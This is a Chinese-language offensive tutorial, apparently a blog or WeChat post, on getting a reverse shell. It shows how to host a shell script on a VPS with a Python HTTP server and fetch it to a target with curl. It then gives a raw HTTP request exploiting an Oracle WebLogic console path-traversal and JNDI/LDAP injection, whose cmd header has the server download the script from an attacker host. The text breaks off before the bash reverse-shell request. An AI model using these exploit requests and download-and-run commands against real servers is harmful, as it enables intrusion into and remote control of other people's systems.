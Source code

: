 ### 深入系列一、反弹 shell

#### 第一步 准备 shell

先写一个反弹 shell 的 sh 在 vps 上

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLkn7v0HxC87SP1jE54Y6A7yRc7ibbNfYYBmDNwaDQnZs8bibFIPpz6ECPuQ/640?wx_fmt=png)

然后开启监听

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknehadvWFrzvDrNdibM2wa7o2L6SNeBJDx7Dtwicq6ZR7yLOTED2dTmIng/640?wx_fmt=png)

接着开启一个 http 服务

```
python3 -m http.server 8000
```

#### 第二步 把 shell 下载到被攻击机器上

```
curl -o /target/path/filename http://xxx.xxx.xxx.xxx.:8080/1.sh
或者
curl -L http://xxx.xxx.xxx.xxx:8080/1.sh -o /target/path/filename
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknVr1srUySs0YxzbtyW1yCITDqVwKHrtvDNk8azHsc3gm1xV8RfVVpwg/640?wx_fmt=png)

请求包  

```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.0.103:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
cmd:curl -o /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/1.sh  http://xxx.xxx.xxx.xxx:8000/1.sh 
Cookie: ADMINCONSOLESESSION=eGtTalBHY2b2h6x6DfgCrJxbHuT0iMHoaHMslzKGh8mUYeqeRMlD!1764575979
Upgrade-Insecure-Requests: 1
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknRyyb44Qy1XImAYyibn27dDgYBO2OHriaoWkM61FLtZxIx0ZX7kekIX9w/640?wx_fmt=png)

#### 第三步 反弹 shell

进行 bash 反弹

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknNEzP5wib41NhZeLdyr2ibywhnEqgYv5uRfrj5RGTCGcdQarL6I1XaibLg/640?wx_fmt=png)

请求包  
